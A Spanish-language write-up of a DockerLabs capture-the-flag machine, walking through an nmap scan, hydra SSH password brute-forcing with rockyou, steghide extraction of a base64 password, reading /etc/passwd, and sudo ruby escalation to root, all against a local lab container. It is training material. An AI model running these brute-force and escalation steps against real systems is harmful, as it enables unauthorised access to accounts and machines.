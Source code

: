 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo de todos los puertos:

```bash 
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 22:01 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
```

Escaneamos mas profundamente los dos servicios encontrados:

```bash
❯ sudo nmap -p22,80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 22:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds
```

Vamos a ver la web:

![amorweb.png](assets/amorweb.png)

Vemos varios mensajes de ataques de phising, programas desactualziados, contraseñas débiles e incluso despidos por enviar contraseñas por correos, en esta empresa se respira amor.

Vemos que en el mensaje de despedida dicen dos nombres, Juan y Carlota, probe estos dos usuarios con el rockyou usando hydra en el ssh y carlota me dio un caso positivo:

```bash
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 22:08:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
```

```ruby
login: carlota   password: babygirl
```

Probamos las credenciales manualmente y obtenemos acceso como carlota:

```bash
❯ ssh carlota@172.17.0.2
carlota@172.17.0.2s password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 27 20:29:06 2024 from 172.17.0.1
$ whoami
carlota
$ 

```

Como se puede ver, indagando por los archivos de carlota vemos que tiene una imagen.jpg en la ruta **/Desktop/fotos/vacaciones**

```bash
carlota@88f972cc934c:~$ ls
Desktop
carlota@88f972cc934c:~$ cd Desktop
carlota@88f972cc934c:~/Desktop$ ls
fotos
carlota@88f972cc934c:~/Desktop$ cd fotos
carlota@88f972cc934c:~/Desktop/fotos$ ls
vacaciones
carlota@88f972cc934c:~/Desktop/fotos$ cd vacaciones
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
```

Si tenemos python en nuestra temrinal de carlota seremos capaces de pasarnos el archivo a nuestro terminal local a traves de un servidor de python:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ python3
Python 3.12.3 (main, Apr 10 2024, 05:33:47) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exit()
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
172.17.0.1 - - [27/May/2024 20:35:32] "GET / HTTP/1.1" 200 -
172.17.0.1 - - [27/May/2024 20:35:32] code 404, message File not found
172.17.0.1 - - [27/May/2024 20:35:32] "GET /favicon.ico HTTP/1.1" 404 -
172.17.0.1 - - [27/May/2024 20:35:36] "GET /imagen.jpg HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ 
```

Vemos que tenemos python así que creamos en la ruta base de la imagen el servidor y en el navegador ponemos la dirección con el puerto abierto:

![serveramor.png](assets/serveramor.png)

damos click a la imagen, click derecho y guardamos donde queramos, ahora vamos a ver los metadatos de dicha imagen:

```bash
#Terminal de mi equipo local con la imagen descargada:

❯ steghide --extract -sf imagen.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"secret.txt".
❯ ls
 imagen.jpg  secret.txt
❯ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24=
```

Parece un código cifrado en base 64, vamos a la web dCode y vemos los resultados:

![imagenbase64amor.png](assets/imagenbase64amor.png)

Obtenemos el texto:

```
eslacasadepinypon
```

Podría ser la contraseña de otro usuario, vamos a ver el etc/passwd y si hay otro usuario probamos un su con la contraseña encontrada:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
carlota:x:1001:1001::/home/carlota:/bin/sh
oscar:x:1002:1002::/home/oscar:/bin/sh
```

Vemos que existe el usuario oscar, así que hacemos el su a oscar:

```bash
carlota@88f972cc934c:~/Desktop/fotos/vacaciones$ su oscar
Password: 
$ whoami
oscar
```

Ahora hacemos una enumeracion de permisos sudo :

```bash
$ sudo -l
Matching Defaults entries for oscar on 88f972cc934c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 88f972cc934c:
    (ALL) NOPASSWD: /usr/bin/ruby
$
```

Vemos en gtfobins el comando para ruby :

![rubamor.png](assets/rubamor.png)

lo ponemos y obtenemos root:

![rootAmor.png](assets/rootAmor.png)
